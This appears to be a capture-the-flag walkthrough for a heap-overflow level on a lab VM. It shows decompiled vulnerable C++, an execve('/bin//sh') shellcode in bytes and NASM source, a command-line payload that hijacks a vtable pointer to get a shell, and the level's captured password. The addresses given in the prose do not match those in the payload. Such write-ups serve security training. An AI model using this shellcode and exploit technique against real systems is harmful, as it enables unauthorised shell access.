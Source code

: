 get the binary on host
* `scp -P 4242 level9@192.168.56.107:./level9 ./binary/level9`

decompile using ghidras
```c
void main(int param_1,int param_2)
{
	N *this;
	code **this_00;
	
	if (param_1 < 2) {
						/* WARNING: Subroutine does not return */
		_exit(1);
	}
	this = (N *)operator.new(0x6c);
	N::N(this,5);
	this_00 = (code **)operator.new(0x6c);
	N::N((N *)this_00,6);
	N::setAnnotation(this,*(char **)(param_2 + 4));
	(**(code **)*this_00)(this_00,this);
	return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
	undefined4 uVar1;
	
	uVar1 = strlen(param_1);
	memcpy(this + 4,param_1,uVar1);
	return;
}

```

here is a great shell code from adbenoit
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

To generate it create a shellcode.nasm
```s
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```
compile it
* `nasm -f elf shellcode.asm`

Use objdump to get the shellcode bytes:
* `objdump -d -M intel shellcode.o`

Extracting the bytes gives us the shellcode
* `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

What we need to create the payload :
* addr of N    ===> 0x08040a10
* a shell code ===> we got one
* adding byte totaling 108 char with the 2 previous element
* addr of N+4 (were our input get memcpy) ===> 0x08040a0c

`./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*79 +'\x0c\xa0\x04\x08'")`
```bash
$ cat /home/user/bonus0/.pass
	f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```